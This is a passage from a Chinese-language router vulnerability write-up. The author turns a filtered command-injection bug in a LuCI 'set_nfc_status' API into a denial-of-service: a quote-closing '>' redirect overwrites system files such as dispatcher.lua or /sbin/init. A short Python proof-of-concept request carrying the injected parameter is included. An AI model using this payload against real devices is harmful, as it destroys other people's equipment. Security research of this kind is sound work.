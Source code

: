   
并没处理转义字符的能力  
  
气!!接连得失败这次挖洞之旅就这么结束了么!!!!  
  
既然命令注入没得法了, 但拒绝服务还是可以做到的  
  
前面提到
```
setNfcStatus
```

  
中执行命令时没有检查
```
'
```

  
闭合, 在不能使用命令分割符的情况下, 还有一个特殊字符
```
>
```

  
, 重定向符!!  
  
提前闭合
```
''
```

  
后, 插入
```
>
```

  
符号, 将命令的输出重定向到任意指定路径, 覆盖可执行文件和脚本, 进行设备破坏  
  
例如
```
/usr/lib/lua/luci/dispatcher.lua
```

  
, 
```
/sbin/init
```

  
等  
  
写个验证脚本  

```
import requests

path = &#34;/usr/lib/lua/luci/dispatcher.lua&#34;
#path = &#34;/sbin/init&#34;
token = &#34;960426559944fb61fc96e9039853d36a&#34;

requests.get(&#34;http://192.168.0.8/cgi-bin/luci/;stok={}/api/xqnetwork/set_nfc_status?nfc_enable='>%20{}%20'&#34;.format(token,path))
```
